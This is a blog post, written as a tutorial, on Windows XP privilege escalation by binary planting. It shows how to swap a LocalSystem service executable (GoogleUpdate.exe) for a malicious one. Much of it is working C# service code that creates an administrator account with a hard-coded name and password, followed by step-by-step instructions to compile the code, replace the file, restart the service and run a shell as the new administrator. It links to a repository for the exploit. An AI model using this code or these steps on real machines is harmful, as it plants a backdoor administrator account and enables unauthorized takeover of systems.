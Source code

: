 ```yaml
---
layout: blog-post
title: "Privilege escalation on Windows using Binary Planting"
excerpt: "Privilege escalation on Windows using Binary Planting"
disqus_id: /2011/09/23/privilegeescalation/
location: New Delhi, India
time: 11:00 PM
categories:
- Privilege Escalation
- Windows
---
```


This article is a tutorial on how to trick Windows XP into giving you system privileges using Binary Planting. There have been other previlege escalation methods which are no longer useable:

* [Escalation using at command] (http://h0bbel.p0ggel.org/windows-xp-privilege-escalation-exploit-no-it-isnt)
* [Escalation using Utilman.exe](http://technet.microsoft.com/en-us/security/bulletin/ms04-019)

Microsoft Windows services, formerly known as NT services, enable you to create long-running executable applications that run in their own Windows sessions. These services can be automatically started when the computer boots, can be paused and restarted, and do not show any user interface. Each service executes in the security context of a user account.

You can specify one of the following special accounts instead of specifying a user account for the service:

* [LocalService](http://msdn.microsoft.com/en-us/library/ms684188.aspx)
* [NetworkService](http://msdn.microsoft.com/en-us/library/ms684272.aspx)
* [LocalSystem](http://msdn.microsoft.com/en-us/library/ms684190.aspx)

LocalSystem has extensive privileges on the local computer, and acts as the computer on the network. Its token includes the NT AUTHORITY\SYSTEM and BUILTIN\Administrators SIDs; these accounts have access to most system objects. 

If you open *services.msc* you can see many Windows services running with **LocalSystem** account. Most of the Windows services run under the process svchost.exe by supplying different command line parameters to it. Now imagine what will happen if we replace svchost.exe with our own custom *svchost.exe* having malicious code. This file replacement will result in privelege escalation and execution of exploit code. This can even happen remotely if you are able to connect to remote machine and replace *svchost.exe*. Fortunately, *svchost.exe* and many of the Windows critical executables are protected by [Windows File Protection] (http://en.wikipedia.org/wiki/Windows_File_Protection)

![](/images/Blog/services.png)  

However, depending on your computer configuration, there will be some other 3rd party services which have been installed and run under the different process. For example, in the screenshot below there is a service called **Google Update service** which runs under LocalSystem account in the process **GoogleUpdate.exe**. This process is generally called from this location **C:\Program Files\Google\GoogleUpdate.exe**.

![](/images/Blog/gpupdate.png)  

Now, even as a restricted user, nobody is stopping me from deleting or replacing this file. If we replace this **GoogleUpdate.exe** with the malicious one, no file integrety check on part of OS or Google Update Services is being performed. This makes the system vulnerable to be exploited since we can run any malicious code under System account simply by replacing this file, which can be done as restricted user.

![](/images/Blog/gservice.png)  

Here is a simple Windows Service code which produces the executable called **GoogleUpdate.exe** , creates a user and adds it to the Administrators group.

{% highlight csharp %}
namespace Google.MakeAdmin.Exploit
{
    using System;
    using System.Diagnostics;
    using System.ServiceProcess;
    using System.DirectoryServices;

    public partial class MakeAdmin : ServiceBase
    {
        private readonly string sSource;
        private readonly string sLog;        

        /// <summary>
        /// Initializes a new instance of the <see cref="MakeAdmin"/> class.
        /// </summary>
        public MakeAdmin()
        {
            InitializeComponent();
            sSource = "Google.MakeAdmin.Exploit";
            sLog = "Application";
        }

        /// <summary>
        /// When implemented in a derived class, executes when a Start command is sent to the service by the 
        /// Service Control Manager (SCM) or when the operating system starts (for a service that starts automatically). 
        /// Specifies actions to take when the service starts.
        /// </summary>
        /// <param name="args">Data passed by the start command.</param>
        protected override void OnStart(string[] args)
        {
            if (!EventLog.SourceExists(sSource))
            {
                EventLog.CreateEventSource(sSource, sLog);
            }


            const string login = "superboy";
            const string password = "pass@word1";
            const string fullName = "Clark Kent";

            CreateUserAccount(login, password, fullName, true, true);

        }

        /// <summary>
        /// When implemented in a derived class, executes when a Stop command is sent to the service by the 
        /// Service Control Manager (SCM). Specifies actions to take when a service stops running.
        /// </summary>
        protected override void OnStop()
        {
        }

        /// <summary>
        /// Creates the user account.
        /// </summary>
        /// <param name="login">The login.</param>
        /// <param name="password">The password.</param>
        /// <param name="fullName">The full name.</param>
        /// <param name="isAdmin">if set to <c>true</c> [is admin].</param>
        /// <param name="isNew">if set to <c>true</c> [is new].</param>
        private void CreateUserAccount(string login, string password, string fullName, bool isAdmin, bool isNew)
        {
            try
            {
                DirectoryEntry dirEntry = new DirectoryEntry("WinNT://" + Environment.MachineName + ",computer");
                DirectoryEntries entries = dirEntry.Children;
                DirectoryEntry newUser = null;
                if (isNew)
                {
                    newUser = entries.Add(login, "user");
                }
                else
                {
                    newUser = entries.Find(login, "user");
                }

                newUser.Properties["FullName"].Add(fullName);
                newUser.Invoke("SetPassword", password);
                newUser.CommitChanges();

                // Remove the if condition along with the else to create user account in "user" group.
                DirectoryEntry grp;
                if (isAdmin)
                {
                    grp = dirEntry.Children.Find("Administrators", "group");
                    if (grp != null)
                    {
                        grp.Invoke("Add", new object[] {newUser.Path});
                    }
                }
                else
                {
                    grp = dirEntry.Children.Find("Guests", "group");
                    if (grp != null)
                    {
                        grp.Invoke("Add", new object[] {newUser.Path});
                    }
                }

            }
            catch (Exception ex)
            {
                EventLog.WriteEntry(sSource, ex.Message);
            }
        }
    }
}
{% endhighlight %}

##Exploting the Service running with LocalSystem Account##

1. Compile the file to generate a new service executable named **GoogleUpdate.exe** and replace it with the original file stored at the location **C:\Program Files\Google\GoogleUpdate.exe**
2. Restart the service. This will cause our exploit code to be executed and a new user will be created in the system with Administrator privileges. In my example, user will have login name *superboy* and password *pass@word1*.
3. Try to run the command prompt with the credentials of new user.
![](/images/Blog/runcmd.png)

![](/images/Blog/login.png)

4. The command prompt executed is under the credentials of superboy and has superuser access.

The exploit code can be downloaded from [this](https://github.com/madhur/Google.MakeAdmin.Exploit) github repository.


